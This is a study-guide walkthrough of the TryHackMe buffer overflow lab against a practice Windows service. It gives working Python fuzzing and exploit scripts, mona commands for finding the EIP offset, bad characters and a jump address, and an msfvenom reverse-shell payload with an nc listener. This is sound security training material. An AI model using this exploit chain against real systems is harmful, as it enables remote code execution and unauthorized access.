

# Mona setup

This is not a comprehensive guide on buffer overflows. This is my adapted version of the [TryHackMe BufferOverflowPrep course](https://tryhackme.com/room/bufferoverflowprep) walkthrough that focuses more on the commands used as a quick reference. I highly recommend reading the full walkthrough on the link above

For this setup, I had a Windows 10 virtual machine and a Kali linux virtual machine (Both running on Proxmox on my local network). I installed [Immunity Debugger](https://www.immunityinc.com/products/debugger) and [mona](https://github.com/corelan/mona) on the windows virtual machine. All `!mona` commands are run in the little command window at the bottom of immunity debugger. The python exploit script is run on the Kali Linux VM.

Open the `oscp.exe` application in Immunity Debugger and press the red play button at the top. We can also reset the `oscp.exe` application by pressing the black `<<` button near the red play button. You will need to reset the application when it crashes so this is very useful functionality.

# Initial setup

```bash
!mona config -set workingfolder c:\mona\%p
```

After the initial setup, we need to start enumerating where the offset for the overflow is.

# Fuzzing Script

Here is is a basic script for fuzzing for where the overflows

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

> Change the machine `ip` and the `prefix` to match your requirements. This was directly ripped from the [TryHackMe BufferOverflowPrep course](https://tryhackme.com/room/bufferoverflowprep)

# Finding the Offset for EIP Register

Once we find the amount of bytes that end up crashing the application, we need to generate a cyclic pattern to find the exact offset for the `EIP` register

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
```

> Replace `2000` with the value that the application crashed at

Copy the output of the script into the `payload` of this new script to perform the exploit:

```python
#!/usr/bin/env python3
import socket

ip = "192.168.0.87"
port = 1337

# Add bad chars here after first iteration of finding bad chars
# Then re-generate bytearray with the bad chars removed using mona
remove_badchars_from_badchars = "\x00"
badchars = "".join([chr(int(hex(x),16)) for x in range(1,256)])
for char in remove_badchars_from_badchars:
    badchars = badchars.replace(char, "")

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = "" # \x03\x12\x50\x62 \xaf\x11\x50\x62
padding = "\x90" * 0

# Badchars:
# Payload:
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Once you have run the exploit, use the following mona command to find the offset for the `RIP` register:

```bash
!mona findmsp -distance 2000
```

Now we can set the `offset` variable in our script to the value returned by the above command, remove the payload and set the return address to be `BBBB`

Run the script and ensure in Immunity Debugger that the return address is `42424242`. If it doesn't then we should run the previous step again and ensure the offset is correct.

# Finding Bad Characters

Now, before we start making a payload to run, we need to check if there are any bad characters that we cannot use in the payload.

To do this, we will use mona to create a list of possible bad characters, set that as the payload and then compare the output to the input using Mona.

In Immunity debugger, run

```
!mona bytearray -b "\x00"
```

Set this value in your payload script (in the script above I have added it as a variable. Just set `payload = badchars`)

Reset the application and run the exploit again, we need the `ESP` address for the following command4

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>
```

Use this to then work out the bad characters (It's easiest to look at the grid that mona creates in the terminal and look for the). The below image is an example of the values `\x00\x1d\x2e\xc7\xee` are bad characters.



Some characters will then corrupt the character behind it, it doesn't mean the 2nd bad character is actually bad, check the below section if that is the case

## Consecutive bad characters

Sometimes when bad characters are next to each other they can be hard to find. If you get to the end and the final exploit doesn't work then place the bad characters you found into the `remove_badchars_from_badchars` variable and run the script again (obviously reset the application and run it).

Recreate a new bad characters array but remove the bad characters you know about:

```
!mona bytearray -b "\x00" # Add the bad characters after the \x00
```

Then run the `!mona comapre ...` again. This time it should have removed the previous bad characters and should have new characters that are corrupting the payload.   

# Find the Jump Point

Now to find a jump point which will replace the value of `EIP`:

```
!mona jmp -r esp -cpb "\x00" # Add any other bad characters here
```

Select one of the returned addresses, preferably one that has as many of the protections turned off (ASLR, Rebase, SafeSEH etc) and place the value in the `retn` variable in our script. 

# Generating the Payload

Now we can generate the payload and plug in all the values!

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.86 LPORT=9001 EXITFUNC=thread -f c -b "\x00" # Add the rest of the bad characters here
```

In the exploit script we have made, replace the values for the `payload` with the values we gained from the msfvenom script (Use the `overflow1.py` as a reference)

# Setup the listener & exploit!

Now is the fun part, set up a listener to wait for the connection back from the windows machine. I use `rlwrap` for line wrapping and command history (`sudo apt install rlwrap`):

```bash
rlwrap nc -nvlp 9001
```

Simply run the exploit and hope for a shell!

> Some payloads (especially when encoders are used by `msfvenom`) may require you to increase the `padding` before the payload as they require space to un-pack the payload. In this case simply set the `padding` multiplier to something like 8 or 16 (It can be any value, trial and error it to find the smallest value that works :D )
